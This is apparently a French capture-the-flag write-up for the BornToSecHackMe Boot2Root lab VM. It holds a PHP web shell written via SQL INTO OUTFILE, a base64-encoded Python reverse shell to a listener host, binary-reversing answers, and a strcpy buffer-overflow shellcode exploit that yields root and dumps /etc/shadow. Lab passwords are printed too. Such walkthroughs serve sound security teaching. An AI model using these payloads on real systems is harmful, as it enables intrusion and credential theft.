





# Boot2Root

## Reconnaissance
Une fois la VM lancer, on lance un scan de port afin de voir les services qui tourne

```
$ nmap -sT -oA http-enum-results --script=http-enum  192.168.56.101
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-01 19:06 CET
Nmap scan report for 192.168.56.101
Host is up (0.00016s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
| http-enum: 
|   /forum/: Forum
|   /phpmyadmin/: phpMyAdmin
|   /webmail/src/login.php: squirrelmail version 1.4.22
|_  /webmail/images/sm_logo.png: SquirrelMail
993/tcp open  imaps

Nmap done: 1 IP address (1 host up) scanned in 2.53 seconds
```

## Exploitation

On va commencer par les ports 80 et 443, qui sont utilisé pour les services Web.

En explorant /forum/ on y trouve des infos intéressantes a cette adresse:
https://192.168.56.101/forum/index.php?id=6

On peux voir quelque chose d'interessant ici :



On va se connnecter sur le forum en tant que **lmezard** (Auteur du post) avec le mot de passe: **!q\]Ej?*5K5cy*AJ**
*Attention: Le Readme va supprimé les étoiles*

L'authentification a reussi.

### Email

En étant connecter, pas grand chose de nouveau hormis le faite d'apprendre que l'adresse mail de lmezard est laurie@borntosec.net

En essayant cette email dans /webmail/ avec le meme mot de passe, on arrive a se connecter.
Sur la boite mail, on a un mail DB ACCESS qui nous fournit un user root ainsi qu'un mot de passe:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

On va dans /phpmyadmin/ et on se connecte avec les identifants données. Et hop, on est sur la bdd en root !

### phpmyadmin

Maintenant, il faut arrivé a avoir la main sur le serveur, pour cela on va injecter un fichier php qui nous permettra d'éxécuté des commandes.

La difficulté va etre de trouver ou ecrire sur le serveur. En effet, nous n'avons pas les droits pour ecrire dans /var/www/.

Notre payload de test:
```
SELECT "<?php phpinfo(); ?>" INTO OUTFILE "/var/www/testing.php";
```



Après une recherche sur internet, on peux trouver le code source du forum et ainsi voir l'arboressence (https://github.com/ilosuna/mylittleforum).
Nous allons essayer d'ecrire dans un de ses dossier:



Et si on va a cette adresse: https://192.168.56.104/forum/templates_c/testing.php
On a bien notre phpinfo.

Maintenant, notre vrai payload sera:

```
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

On va l'encoder en base 64 (Pour pas etre embeter par les cotes), ce qui nous donne notre payload final:

```
SELECT "<?php system(base64_decode('cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC41Ni4xIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsnCg==')); ?>" INTO OUTFILE "/var/www/forum/templates_c/payload.php";
```

On attend notre connection (Sur un terminal)
```
$ nc -l -p 4444 -vv
```

En allant sur l'url (pour charger le payload) -> https://192.168.56.104/forum/templates_c/payload.php

On a bien notre prompt dans notre terminal.



On navigant dans le home, on peux voir un dossier LOOKATME avec a l'interieur un password:

lmezard:G!@M6f4Eatau{sF"

En essayant de se connecter a l'user lmezard on a une erreur:

```
$ su - lmezard
su: must be run from a terminal
```

Pour ne plus avoir cette erreur (source: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/): 

```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
$ python /tmp/asdf.py
$ su - lmezard
```

On rentre le mot de passe et on est connecter en tant que lmezard

### Reconstruction de fichier

On peux voir 2 fichiers (fun et README):

```
lmezard@BornToSecHackMe:~$ ls -la
ls -la
total 791
dr-xr-x--- 2 lmezard  lmezard     61 Oct 15  2015 .
drwxrwx--x 9 www-data root       126 Oct 13  2015 ..
-rw-r--r-- 1 root     root         1 Oct 15  2015 .bash_history
-rwxr-x--- 1 lmezard  lmezard 808960 Oct  8  2015 fun
-rwxr-x--- 1 lmezard  lmezard     96 Oct 15  2015 README
lmezard@BornToSecHackMe:~$ cat README
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
lmezard@BornToSecHackMe:~$ file fun
file fun
fun: POSIX tar archive (GNU)
```

Pour téléchargé l'archive: 
```
lmezard@BornToSecHackMe:~$ cp fun /var/www/forum/templates_c/fun
cp fun /var/www/forum/templates_c/fun
lmezard@BornToSecHackMe:~$ chmod 777 /var/www/forum/templates_c/fun 
chmod 777 /var/www/forum/templates_c/fun
```

ensuite

```
$ wget https://192.168.56.101/forum/templates_c/fun --no-check-certificate
```

On extrait les données de l'archive:
```
$ tar -xvf fun -C ./
$ cd ft_fun
```

On execute notre programme avec une commande sed:
```
$ python scripts/archive_decoder.py 
```
Ensuite il suffit de regarder chaque getme dans l'ordre pour pouvoir reconstruire le mot de passe, ce qui nous donne:
Iheartpwnage

On hash ce mot de passe en sha256:
```
$ echo -n "Iheartpwnage" | shasum -a 256
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
$ ssh laurie@192.168.56.104
```
on entre le mot de passe et on est connecter :)

### Reverse

Lorsqu'on se connecte a l'utilisateur laurie, on peux voir 2 fichiers:

```
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README 
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).

```

Le README nous donne des indices sur les éléments a trouvé, maintenant il faut reverse le binaire bomb.
Pour download bomb:
```
laurie@BornToSecHackMe:~$ cp bomb /var/www/forum/templates_c/
```

Et sur notre poste:
```
$ wget https://192.168.56.104/forum/templates_c/bomb --no-check-certificate
```
On va travailler avec r2, gdb et Ghidra selon les phases.

- **Phase 1**:
```
[0x080488e0]> pdf@sym.phase_1
            ; CALL XREF from main @ 0x8048a5b
            ;-- phase_1:
┌ 39: loc.gcc2_compiled._5 (int32_t arg_8h);
│           ; arg int32_t arg_8h @ ebp+0x8
│           0x08048b20      55             push ebp
│           0x08048b21      89e5           mov ebp, esp
│           0x08048b23      83ec08         sub esp, 8
│           0x08048b26      8b4508         mov eax, dword [arg_8h]
│           0x08048b29      83c4f8         add esp, -8
│           0x08048b2c      68c0970408     push str.Public_speaking_is_very_easy. ; 0x80497c0 ; "Public speaking is very easy."
│           0x08048b31      50             push eax
│           0x08048b32      e8f9040000     call sym.strings_not_equal
│           0x08048b37      83c410         add esp, 0x10
│           0x08048b3a      85c0           test eax, eax
│       ┌─< 0x08048b3c      7405           je 0x8048b43
│       │   0x08048b3e      e8b9090000     call sym.explode_bomb
│       │   ; CODE XREF from loc.gcc2_compiled._5 @ 0x8048b3c
│       └─> 0x08048b43      89ec           mov esp, ebp
│           0x08048b45      5d             pop ebp
└           0x08048b46      c3             ret

```
Le programme compare la string passé en paramètre et "Public speaking is very easy.". De plus, elle correspond a l'indice du Readme.

- **Phase 2**:
```
[0x080488e0]> pdf@sym.phase_2
            ; CALL XREF from main @ 0x8048a7e
┌ 79: sym.phase_2 (int32_t arg_8h);
│           ; var int32_t var_28h @ ebp-0x28
│           ; var int32_t var_18h @ ebp-0x18
│           ; arg int32_t arg_8h @ ebp+0x8
│           0x08048b48      55             push ebp
│           0x08048b49      89e5           mov ebp, esp
│           0x08048b4b      83ec20         sub esp, 0x20
│           0x08048b4e      56             push esi
│           0x08048b4f      53             push ebx
│           0x08048b50      8b5508         mov edx, dword [arg_8h]
│           0x08048b53      83c4f8         add esp, -8
│           0x08048b56      8d45e8         lea eax, dword [var_18h]
│           0x08048b59      50             push eax                    ; int32_t arg_ch
│           0x08048b5a      52             push edx                    ; char *s
│           0x08048b5b      e878040000     call sym.read_six_numbers
│           0x08048b60      83c410         add esp, 0x10
│           0x08048b63      837de801       cmp dword [var_18h], 1
│       ┌─< 0x08048b67      7405           je 0x8048b6e
│       │   0x08048b69      e88e090000     call sym.explode_bomb
│       │   ; CODE XREF from sym.phase_2 @ 0x8048b67
│       └─> 0x08048b6e      bb01000000     mov ebx, 1
│           0x08048b73      8d75e8         lea esi, dword [var_18h]
│           ; CODE XREF from sym.phase_2 @ 0x8048b8c
│       ┌─> 0x08048b76      8d4301         lea eax, dword [ebx + 1]
│       ╎   0x08048b79      0faf449efc     imul eax, dword [esi + ebx*4 - 4]
│       ╎   0x08048b7e      39049e         cmp dword [esi + ebx*4], eax
│      ┌──< 0x08048b81      7405           je 0x8048b88
│      │╎   0x08048b83      e874090000     call sym.explode_bomb
│      │╎   ; CODE XREF from sym.phase_2 @ 0x8048b81
│      └──> 0x08048b88      43             inc ebx
│       ╎   0x08048b89      83fb05         cmp ebx, 5                  ; eflags
│       └─< 0x08048b8c      7ee8           jle 0x8048b76
│           0x08048b8e      8d65d8         lea esp, dword [var_28h]
│           0x08048b91      5b             pop ebx
│           0x08048b92      5e             pop esi
│           0x08048b93      89ec           mov esp, ebp
│           0x08048b95      5d             pop ebp
└           0x08048b96      c3             ret
```
Le programme attend 6 nombres. Le calcule des nombres est dans une boucle et cette opération est faite a chaque tour:
```
0x08048b76      8d4301         lea eax, dword [ebx + 1]
0x08048b79      0faf449efc     imul eax, dword [esi + ebx*4 - 4]
0x08048b7e      39049e         cmp dword [esi + ebx*4], eax
```
Pour s'en convaincre, on peux lancer le programme avec gdb et regarder la valeur de eax a chaque tour.
Ce qui nous donne : 1 2 6 24 120 720
De plus, sa match avec notre indice.

- **Phase 3**:
Le programme attend 2 nombres et un caractère dans un certain ordre:
```
[0x080488e0]> pdf@sym.phase_3
[...]
0x08048bb1      68de970408     push str.d__c__d            ; 0x80497de ; "%d %c %d" ; const char *format
[...]
```
Le premier nombre correspond au switch, le second paramètre est un caractère et le 3eme est une vérification.
```
[...]
; CODE XREF from sym.phase_3 @ 0x8048bd6
│     │││   ;-- case 1:                                                ; from 0x8048bd6
│     │││   0x08048c00      b362           mov bl, 0x62                ; 'b' ; 98
│     │││   0x08048c02      817dfcd60000.  cmp dword [var_4h], 0xd6
│    ┌────< 0x08048c09      0f8480000000   je 0x8048c8f
│    ││││   0x08048c0f      e8e8080000     call sym.explode_bomb
..
│   │││││   ; CODE XREF from sym.phase_3 @ 0x8048bd6
│   │││││   ;-- case 2:                                                ; from 0x8048bd6
│   │││││   0x08048c16      b362           mov bl, 0x62                ; 'b' ; 98
│   │││││   0x08048c18      817dfcf30200.  cmp dword [var_4h], 0x2f3
│  ┌──────< 0x08048c1f      746e           je 0x8048c8f
│  ││││││   0x08048c21      e8d6080000     call sym.explode_bomb
[...]
```
L'indice nous indique que c'est le b, il nous reste donc 2 possibilités:
1 b 214 ou 2 b 755.
En lancant le binaire, les 2 solutions seront juste mais pour le mot de passe final, 1 seule solution fonctionne:
le resultat de la phase 3 est donc : 1 b 214

- **Phase 4**:

La phase 4 attend un nombre, et nous n'avons aucun indice:

```
0x08048cf0      6808980408     push 0x8049808              ; "%d" ; const char *format
```
On peux voir que le code fait appel a une fonction (func4) et attend une valeur de retour a 55:
```
[...]
|           0x08048d15      e886ffffff     call sym.func4
│           0x08048d1a      83c410         add esp, 0x10
│           0x08048d1d      83f837         cmp eax, 0x37               ; 55
│       ┌─< 0x08048d20      7405           je 0x8048d27
│       │   0x08048d22      e8d5070000     call sym.explode_bomb
│       │   ; CODE XREF from sym.phase_4 @ 0x8048d20
│       └─> 0x08048d27      89ec           mov esp, ebp
│           0x08048d29      5d             pop ebp
└           0x08048d2a      c3             ret
[0x080488e0]> pdf@sym.func4
            ; CALL XREFS from sym.func4 @ 0x8048cb7, 0x8048cc5
            ; CALL XREF from sym.phase_4 @ 0x8048d15
┌ 60: sym.func4 (signed int arg_8h);
│           ; var int32_t var_18h @ ebp-0x18
│           ; arg signed int arg_8h @ ebp+0x8
│           0x08048ca0      55             push ebp
│           0x08048ca1      89e5           mov ebp, esp
│           0x08048ca3      83ec10         sub esp, 0x10
│           0x08048ca6      56             push esi
│           0x08048ca7      53             push ebx
│           0x08048ca8      8b5d08         mov ebx, dword [arg_8h]
│           0x08048cab      83fb01         cmp ebx, 1                  ; 1
│       ┌─< 0x08048cae      7e20           jle 0x8048cd0
│       │   0x08048cb0      83c4f4         add esp, -0xc
│       │   0x08048cb3      8d43ff         lea eax, dword [ebx - 1]
│       │   0x08048cb6      50             push eax
│       │   0x08048cb7      e8e4ffffff     call sym.func4
│       │   0x08048cbc      89c6           mov esi, eax
│       │   0x08048cbe      83c4f4         add esp, -0xc
│       │   0x08048cc1      8d43fe         lea eax, dword [ebx - 2]
│       │   0x08048cc4      50             push eax
│       │   0x08048cc5      e8d6ffffff     call sym.func4
│       │   0x08048cca      01f0           add eax, esi
│      ┌──< 0x08048ccc      eb07           jmp 0x8048cd5
..
│      ││   ; CODE XREF from sym.func4 @ 0x8048cae
│      │└─> 0x08048cd0      b801000000     mov eax, 1
│      │    ; CODE XREF from sym.func4 @ 0x8048ccc
│      └──> 0x08048cd5      8d65e8         lea esp, dword [var_18h]
│           0x08048cd8      5b             pop ebx
│           0x08048cd9      5e             pop esi
│           0x08048cda      89ec           mov esp, ebp
│           0x08048cdc      5d             pop ebp
└           0x08048cdd      c3             ret
```
On peux convertir la func4 en un code un peu plus compréhensible avec Ghidra : 
```
int func4(int param_1)

{
  int iVar1;
  int iVar2;
  
  if (param_1 < 2) {
    iVar2 = 1;
  }
  else {
    iVar1 = func4(param_1 + -1);
    iVar2 = func4(param_1 + -2);
    iVar2 = iVar2 + iVar1;
  }
  return iVar2;
}
```
Personnellement j'y suis allé un peu a "taton", avec un peu de persévérence on trouve le bon résultat: 9

- **Phase 5**:

Notre indice nous indique que la phrase a rentré commence par o
On peux voir que le programme attend une longueur de 6:
```
|           0x08048d3b      e8d8020000     call sym.string_length
│           0x08048d40      83c410         add esp, 0x10
│           0x08048d43      83f806         cmp eax, 6                  ; 6

```
Ensuite une opération est effectuer sur la chaine passé en paramètre:
```
|           0x08048d4d      31d2           xor edx, edx
│           0x08048d4f      8d4df8         lea ecx, dword [var_8h]
│           0x08048d52      be20b20408     mov esi, obj.array.123      ; 0x804b220 ; "isrveawhobpnutfg\xb0\x01"
│           ; CODE XREF from sym.phase_5 @ 0x8048d69
│       ┌─> 0x08048d57      8a041a         mov al, byte [edx + ebx]
│       ╎   0x08048d5a      240f           and al, 0xf                 ; 15
│       ╎   0x08048d5c      0fbec0         movsx eax, al
│       ╎   0x08048d5f      8a0430         mov al, byte [eax + esi]
│       ╎   0x08048d62      88040a         mov byte [edx + ecx], al
│       ╎   0x08048d65      42             inc edx
│       ╎   0x08048d66      83fa05         cmp edx, 5                  ; eflags
│       └─< 0x08048d69      7eec           jle 0x8048d57
│           0x08048d6b      c645fe00       mov byte [var_2h], 0
│           0x08048d6f      83c4f8         add esp, -8
│           0x08048d72      680b980408     push str.giants             ; 0x804980b ; "giants"
│           0x08048d77      8d45f8         lea eax, dword [var_8h]
│           0x08048d7a      50             push eax
│           0x08048d7b      e8b0020000     call sym.strings_not_equal
```
Ce qui correspond a :
```
  do {
    local_c[iVar1] = (&array.123)[(char)(*(byte *)(iVar1 + param_1) & 0xf)];
    iVar1 = iVar1 + 1;
  } while (iVar1 < 6);
  local_6 = 0;
  iVar1 = strings_not_equal(local_c,"giants");
```
Il suffit de reproduire ce comportement pour toutes les lettres du mot giants :)

```
>>> tableau = "isrveawhobpnutfg\xb0\x01"
>>> word = "giants"
>>> for char in word:
...     i = 97
...     while i != 122:
...             if tableau[i & 0xF] == char:
...                     print(chr(i), end=" ")
...             i += 1
...     print("")
... 
o 
p 
e u 
k 
m 
a q 

```
Nous avons plusieurs réponse possible, la seul qui fonctionnera pour le mot de passe de thor est : opekmq

- **Phase 6**:

Nous avons en indice : 4
Voici la fonction désassemblé sous ghidra:
```
void phase_6(undefined4 param_1)

{
  int *piVar1;
  int iVar2;
  int *piVar3;
  int iVar4;
  undefined1 *local_38;
  int *local_34 [6];
  int local_1c [6];
  
  local_38 = node1;
  read_six_numbers(param_1,local_1c);
  iVar4 = 0;
  do {
    if (5 < local_1c[iVar4] - 1U) {
      explode_bomb();
    }
    iVar2 = iVar4 + 1;
    if (iVar2 < 6) {
      do {
        if (local_1c[iVar4] == local_1c[iVar2]) {
          explode_bomb();
        }
        iVar2 = iVar2 + 1;
      } while (iVar2 < 6);
    }
    iVar4 = iVar4 + 1;
  } while (iVar4 < 6);
  iVar4 = 0;
  do {
    iVar2 = 1;
    piVar3 = (int *)local_38;
    if (1 < local_1c[iVar4]) {
      do {
        piVar3 = (int *)piVar3[2];
        iVar2 = iVar2 + 1;
      } while (iVar2 < local_1c[iVar4]);
    }
    local_34[iVar4] = piVar3;
    iVar4 = iVar4 + 1;
  } while (iVar4 < 6);
  iVar4 = 1;
  piVar3 = local_34[0];
  do {
    piVar1 = local_34[iVar4];
    *(int **)(piVar3 + 2) = piVar1;
    iVar4 = iVar4 + 1;
    piVar3 = piVar1;
  } while (iVar4 < 6);
  piVar1[2] = 0;
  iVar4 = 0;
  do {
    if (*local_34[0] < *(int *)local_34[0][2]) {
      explode_bomb();
    }
    local_34[0] = (int *)local_34[0][2];
    iVar4 = iVar4 + 1;
  } while (iVar4 < 5);
  return;
}
```
La fonction attend 6 nombres. Elle est un peu complexe a comprendre...

Pour faire l'exercice, j'ai mis des breakpoints a chaque explode_bomb() afin de voir qu'est ce qui était attendu.

Le resultat est : 4 2 6 3 1 5

- **Notre payload final**:
```
$ cat exploit.txt
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5

$ ./bomb exploit.txt
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Congratulations! You've defused the bomb!
```

Le mot de passe pour thor est le condensé des réponses:
```
$ cat exploit.txt |tr -d ' '| tr -d '\n' && echo ""
Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

Et la .... c'est le drame. Sa ne marche pas :(

Le forum nous donne un indice:


Les numéros doivent etre inversé.

Le bon mot de passe est:
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

### Turtle

Une fois connecter sur l'user thor, on peux voir un ReadME et un fichier turtle.
Le ReadMe nous donne le nom du prochain utilisateur, le turtle des déplacements.
Après une recherche sur internet, on peux trouver des ressources intéressantes:
https://docs.python.org/fr/3/library/turtle.html


Pour solutioné le problème, nous allons utilisé un script python:
```
$ pip install turtle --user
$ sudo apt-get install python-tk
$ python scripts/decode_turtle.py
```
Nous pouvons décodé le motr "SLASH".
Le ReadMe nous parle de digest, nous allons faire un hash md5

```
$ echo -n "SLASH" |md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
```
Nous sommes connecté a Zaz.

### Buffer overflow

Une fois connecté a Zaz, on trouve un binaire "exploit_me". On va tester la présence possible d'un buffer overflow

```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "A" * 200')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

```
Le code est sujet a un BOF ?.

En désassemblant ce binaire, on peux trouvé un code assez simpliste:
```
uint main(int param_1,int param_2)

{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return (uint)(param_1 < 2);
}
```
Effectivement, le BOF se confirme. strcpy est une fonction dangeureuse et rien ne vérifie la longueur de la chaine a copié.
On va donc pouvoir écrire sur la stack.

```
zaz@BornToSecHackMe:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 95 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "p\xf6\xff\xbf"')
������������������������������������������������������������������������������������������������^�1��F�F
                                                                                                        �
                                                                                                         ����V
                                                                                                              1ۉ�@�����/bin/shp���
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# whoami
root
# cat /etc/shadow
root:$6$P3HXAOsR$Lmz85I7RXUJLU8KR.C2okbToyNfq5QIDj6YOoWYilDWQ3e.dhXC/bamN4xLcAZVHHLFuszMaGD6nRa5HrFAls0:16723:0:99999:7:::
[...]
```

**Comment sa marche ?**

D'abord il faut trouver la longueur du buffer, en le désassemblant avec ghidra, on trouve la longueur de 140. Pour s'en convaicre:
```
gdb-peda$ r < <(python -c 'print "A" * 140 + "BBBB"')
[...]
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
On a bien notre adresse de retour qui a été écrasé.
Maintenant, on va chercher l'address qui pointe sur notre buffer
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/zaz/exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048425 in main ()
(gdb) x/24xw $esp
0xbffff660:     0xbffff670      0xbffff8cc      0x00000001      0xb7ec3c49
0xbffff670:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff680:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
```
0xbffff670 est l'adresse, pour la convertir j'utilise la lib pwn:
```
Python 2.7.18 (default, Apr 20 2020, 20:30:41)                                              
[GCC 9.3.0] on linux2                                                                       
Type "help", "copyright", "credits" or "license" for more information.                      
>>> from pwn import *                                                                       
>>> p32(0xbffff670)
'p\xf6\xff\xbf' 
```

Le shellcode quand a lui est un code tous fait que l'on trouve facilement sur le net. C'est d'ailleur le meme que Pixis dans son super tutoriel sur le <a href="https://beta.hackndo.com/buffer-overflow/">BOF</a>.

Shellcode:
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Donc on a notre payload sous la forme suivante:
```
[Des nop (\x90)] [shellcode] [adresse des nop]
^__________________________________|
```

Nous sommes root, challenge terminé


